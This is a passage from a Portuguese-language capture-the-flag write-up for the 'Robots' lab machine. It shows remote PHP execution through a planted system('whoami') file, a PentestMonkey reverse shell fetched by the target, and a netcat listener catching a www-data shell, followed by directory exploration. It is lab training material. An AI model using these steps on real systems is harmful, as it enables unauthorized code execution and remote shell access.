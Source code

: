 ```php
<?php
  system('whoami');
?>
```

O servidor pegou o arquivo da minha máquina e executou:

```bash
10.10.56.148 - - [24/Jul/2025 23:50:05] "GET /whoiam.php HTTP/1.1" 200 -
```

![Who am i result](/notes/writeups-robots-images/who-am-i-result.png)

Já que a nossa máquina alvo está executando nossos comandos, está na hora de um Reverse Shell. Vamos spawnar uma conexão da máquina alvo para minha maquina e escutar com netcat. Vou usar esse Reverse Shell de PHP: [PentestMonkey Rev Shell - PHP](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), ajustar as variáveis e abrir uma conexão netcat seguindo essas variaveis.

Nosso script foi requisitado:

```bash
10.10.56.148 - - [24/Jul/2025 23:56:08] "GET /php-reverse-shell.php HTTP/1.1" 200 -
```

E já bateu a conexão no netcat:

```bash
sudo nc -lvnp 445
Connection from 10.10.56.148:55490
Linux robots.thm 5.15.0-118-generic #128-Ubuntu SMP Fri Jul 5 09:28:59 UTC 2024 x86_64 GNU/Linux
 02:56:09 up  1:50,  0 user,  load average: 0.00, 0.06, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Podemos fazer o upgrade do shell seguindo esse guia: [Upgrade to Fully Interactive TTYs](https://0xffsec.com/handbook/shells/full-tty/)

## Exploração interna

Podemos navegar até o diretório que estavamos `/var/www/html/harm/to/self` e ver se tem algo interessante.

`cd /var/www/html/harm/to/self`

```bash
www-data@robots:/var/www/html/harm/to/self$ ls
admin.php   css        login.php   register.php
config.php  index.php  logout.php  server_info.php
```
